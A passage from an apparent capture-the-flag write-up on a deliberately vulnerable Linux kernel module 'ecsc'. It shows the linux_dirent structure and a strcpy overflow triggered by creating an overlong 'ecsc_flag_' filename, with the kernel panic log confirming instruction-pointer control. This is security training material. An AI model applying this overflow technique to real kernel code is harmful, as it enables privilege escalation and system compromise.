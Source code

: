 The second parameter is a pointer to a {{< hl-text orange >}}linux_dirent{{< /hl-text >}} structure. Here is the definition of such a structure:

{{< codeblock lang="c"  >}}
struct linux_dirent {
    unsigned long  d_ino;     /* Inode number */
    unsigned long  d_off;     /* Offset to next linux_dirent */
    unsigned short d_reclen;  /* Length of this linux_dirent */
    char           d_name[];  /* Filename (null-terminated) */
                        /* length is actually (d_reclen - 2 -
                        offsetof(struct linux_dirent, d_name)) */
    /*
    char           pad;       // Zero padding byte
    char           d_type;    // File type (only since Linux
                                // 2.6.4); offset is (d_reclen - 1)
    */
}
{{< /codeblock >}}

So at the offset 0x12 of a linux_dirent structure we can find the {{< hl-text orange >}}d_name{{< /hl-text >}} parameter. The little loop before the strcpy checks that the name of the file starts by {{< hl-text orange >}}ecsc_flag_{{< /hl-text >}}. We can try a buffer overflow with a long filename starting by ecsc\_flag\_ and see what append:

{{< codeblock lang="bash"  >}}
~ $ touch ecsc_flag_aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
~ $ ls -asl
general protection fault: 0000 [#1] NOPTI
Modules linked in: ecsc(O)
CPU: 0 PID: 63 Comm: ls Tainted: G           O    4.14.167 #11
task: ffff9f6281e19100 task.stack: ffffb61dc009c000
RIP: 0010:0x6161616161616161
RSP: 0018:ffffb61dc009ff38 EFLAGS: 00000282
RAX: 0000000000000170 RBX: 6161616161616161 RCX: 0000000000000000
RDX: 00007ffd2cdac8a9 RSI: ffffb61dc009ff96 RDI: 00007ffd2cdac7d3
RBP: 6161616161616161 R08: ffffb61dc009fed0 R09: ffffffffc0387024
R10: ffffb61dc009fec0 R11: 6161616161616161 R12: 6161616161616161
R13: 6161616161616161 R14: 0000000000000000 R15: 0000000000000000
FS:  0000000000000000(0000) GS:ffffffff88a36000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 00007ffd2cdac790 CR3: 0000000001e72000 CR4: 00000000000006b0
Call Trace:
Code:  Bad RIP value.
RIP: 0x6161616161616161 RSP: ffffb61dc009ff38
---[ end trace f622400f5523341b ]---
Kernel panic - not syncing: Fatal exception
Kernel Offset: 0x7000000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
Rebooting in 1 seconds..
{{< /codeblock >}}
